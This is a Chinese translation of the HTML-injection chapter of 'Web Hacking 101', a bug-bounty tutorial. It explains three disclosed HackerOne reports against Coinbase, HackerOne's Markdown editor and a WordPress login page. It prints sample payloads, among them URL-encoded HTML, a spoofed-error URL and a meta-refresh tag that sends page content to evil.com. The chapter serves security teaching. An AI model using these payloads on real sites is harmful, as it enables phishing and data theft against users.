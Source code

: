 ```yaml
---
title: "Web Hacking 101 中文版 五、HTML 注入"
id: csdn62888876
---
```


# 五、HTML 注入

> 作者：Peter Yaworski
> 
> 译者：[飞龙](https://github.com/)
> 
> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 描述

超文本标记语言（HTML）注入有时也被称为虚拟污染。 这实际上是一个由站点造成的攻击，该站点允许恶意用户向其 Web 页面注入 HTML，并且没有合理处理用户输入。 换句话说，HTML 注入漏洞是由接收 HTML 引起的，通常通过一些之后会呈现在页面的表单输入。 这个漏洞是独立的，不同于注入 Javascript，VBscript 等。

由于 HTML 是用于定义网页结构的语言，如果攻击者可以注入 HTML，它们基本上可以改变浏览器呈现的内容。 有时，这可能会导致页面外观的完全改变，或在其他情况下，创建表单来欺骗用户，例如，如果你可以注入 HTML，你也许能够将 `<form>` 标签添加到页面，要求用户重新输入他们的用户名和密码。 然而，当提交此表单时，它实际上将信息发送给攻击者。

## 示例

### 1\. Coinbase 评论

难度：低

URL：`coinbase.com/apps`

报告链接：`https://hackerone.com/reports/104543`

报告日期：2015.12.10

奖金：$200

描述：

对于此漏洞，报告者识别出 Coinbase 在呈现文本时，实际上在解码 URI 的编码值。 对于那些不熟悉它的人（我在写这篇文章的时候），URI 中的字符是保留的或未保留的。 根据维基百科，保留字是有时有特殊意义的字符，如`/`和`&`。 未保留的字符是没有任何特殊意义的字符，通常只是字母。

因此，当字符被 URI 编码时，它将按照 ASCII 转换为其字节值，并以百分号（`%`）开头。 所以，`/`变成`%2F`，`&`成为`%26`。 另外，ASCII 是一种在互联网上最常见的编码，直到 UTF-8 出现，它是另一种编码类型。 现在，回到我们的例子，如果攻击者输入 HTML：

```
<h1>This is a test</h1>
```

Coinbase 实际上会将其渲染为纯文本，就像你上面看到的那样。但是，如果用户提交了 URL 编码字符，像这样：

```
%3C%68%31%3E%54%68%69%73%20%69%73%20%61%20%74%65%73%74%3C%2F%68%31%3E
```

Coinbase 实际上会解码该字符串，并渲染相应的字符，像这样：

```
This is a test
```

使用它，报告者演示了如何提交带有用户名和密码字段的 HTML 表单，Coinbase 会渲染他。如果这个用户是恶意的，Coinbase 就会渲染一个表单，它将值提交给恶意网站来捕获凭据（假设人们填充并提交了表单）。

> 重要结论
> 
> 当你测试一个站点时，要检查它如何处理不同类型的输入，包括纯文本和编码文本。特别要注意一些接受 URI 编码值，例如`%2f`，并渲染其解码值的站点，这里是`/`。虽然我们不知道这个例子中，黑客在想什么，它们可能尝试了 URI 编码限制字符，并注意到 Coinbase 会解码它们。之后他们更一步 URL 编码了所有字符。
> 
> [http://quick-encoder.com/url](http://quick-encoder.com/url) 是一个不错的 URL 编码器。你在使用时会注意到，它告诉你非限制字符不需要编码，并且提供了编码 URL 安全字符的选项。这就是获取用于 COinbase 的相同编码字符串的方式。

### 2\. HackerOne 无意识 HTML 包含

难度：中

URL：hackerone.com

报告链接：[https://hackerone.com/reports/112935](https://hackerone.com/reports/112935)

报告日期：2016.1.26

奖金：$500

描述：

在读完 Yahoo XSS 的描述（第七章示例四），我对文本编辑器中的 HTML 渲染测试产生了兴趣。这包含玩转 HackerOne 的 Markdown 编辑器，在图像标签中输入一些类似`ismap= "yyy=xxx"`和`"'test"`的东西。这样做的时候，我注意到，编辑器会在双引号里面包含一个单引号 - 这叫做悬置引号。

那个时候，我并没有真正理解它的含义。我知道如果你在某个地方注入另一个单引号，两个引号就会被浏览器一起解析，浏览器会将它们之间的内容视为一个 HTML 元素，例如：

```
<h1>This is a test</h1><p class="some class">some content</p>'
```

使用这个例子，如果你打算注入一个 Meta 标签：

```
<meta http-equiv="refresh" content='0; url=https://evil.com/log.php?text=
```

浏览器会提交两个引号之间的任何东西。现在，结果是，这个已经在 HackerOne 的 [#110578](https://hackerone.com/reports/110578) 报告中由 [intidc](https://hackerone.com/intidc) 公开。看到它公开之后，我有一点失望。

根据 HackerOne，它们依赖于 Redcarpet（一个用于 Markdown 处理的 Ruby 库）的实现，来转义任何 Markdown 输入的 HTML 输出，随后它会通过 React 组件的`dangerouslySetInnerHTML`直接传递给 HTML DOM（也就是页面）。此外，React 是一个 JavaScript 库，可用于动态更新 Web 页面的内容，而不需要重新加载页面。

DOM 指代用于有效 HTML 以及 格式良好的 XML 的应用程序接口。本质上，根据维基百科，DOM 是跨平台并且语言无关的约定，用于展示 HTML、XHTML 和 XMl 中的对象，并与其交互。

在 HackerOne 的实现中，它们并没有合理转义 HTML 输出，这会导致潜在的漏洞。现在，也就是说，查看披露，我觉得我应该测试一下心得代码。我返回并测试了这个：

```
[test](http://www.torontowebsitedeveloper.com "test ismap="alert xss" yyy="test"\ ")
```

它会变成

```
<a title="'test" ismap="alert xss" yyy="test" &#39; ref="http://www.toronotwebsi\ tedeveloper.com">test</a>
```

你可以看到，我能够将一堆 HTML 注入到`<a>`标签中。所以，HackerOne 回滚了该修复版本，并重新开始转义单引号了。

> 重要结论
> 
> 仅仅是代码被更新了，并不意味着一些东西修复了，而是还要测试一下。当部署了变更之后，同时意味着新的代码也可能存在漏洞。
> 
> 此外，如果你觉得有什么不对，一定要深入挖掘。我知道一开始的尾后引号可能是个问题，但是我不知道如何利用它，所以我停止了。我本应该继续的。我实际上通过阅读 XSS Jigsaw 的

### 3\. WithinSecurity 内容伪造

难度：低

URL：`withinsecurity.com/wp-login.php`

报告链接：`https://hackerone.com/reports/111094`

报告日期：2015.1.16

奖金：$250

描述：

虽然内容伪造实际上和 HTML 注入是不同的漏洞，我也将其包含在这里，因为它们拥有相似的本质，攻击者让一个站点渲染它们选择的内容。

WithinSecurity 构建在 WordPress 平台之上，它包含登录页面`withinsecurity.com/wp-login.php`（这个站点已经合并到了 HackerOne 的核心平台中）。攻击者注意到了在登录过程中，如果发生了错误，WithinSecurity 就会渲染`access_denied`，同时对应 URL 中的`error`参数：

```
https://withinsecurity.com/wp-login.php?error=access_denied
```

注意到了这个，攻击者尝试修改`error`参数，并发现无论参数传递了什么值，都会被站点渲染为错误信息的一部分，并展示给用户。这里是所用的示例：

```
https://withinsecurity.com/wp-login.php?error=Your%20account%20has%20%hacked
```

![](../img/70cb6579e2cf5907aad0193862bc07fc.png)

WithinSecurity 内容伪造

这里的关键是注意到 URL 中的参数在页面中渲染。虽然他们没有解释，我可以假设攻击者注意到了`access_denied`展示在了页面上，但是也包含在 URL 中。这里他们也报告了，漏洞也可以由一个简单的测试，修改`access_denied`参数来找到。

> 重要结论
> 
> 时刻关注传递并且渲染为站点内容的 URL 参数。他们可能就是攻击者的机会，来欺骗受害者来执行一些恶意动作。

## 总结

HTML 注入向站点和开发者展示了漏洞，因为他可以用于误导用户，并且欺骗它们来提交一些敏感信息，或者浏览恶意网站。就像钓鱼攻击那样。

发现这些漏洞并不是通过仅仅提交 HTML，而是弄清楚站点如何渲染你的输入文本，像是 URI 编码的字符。而且，虽然内容伪造并不和 HTML 注入完全一样，它也是类似的，因为它涉及让一些输入在 HTML 页面中反映给受害者。攻击者应该仔细寻找机会，来操纵 URL 参数，并让它们在站点上渲染。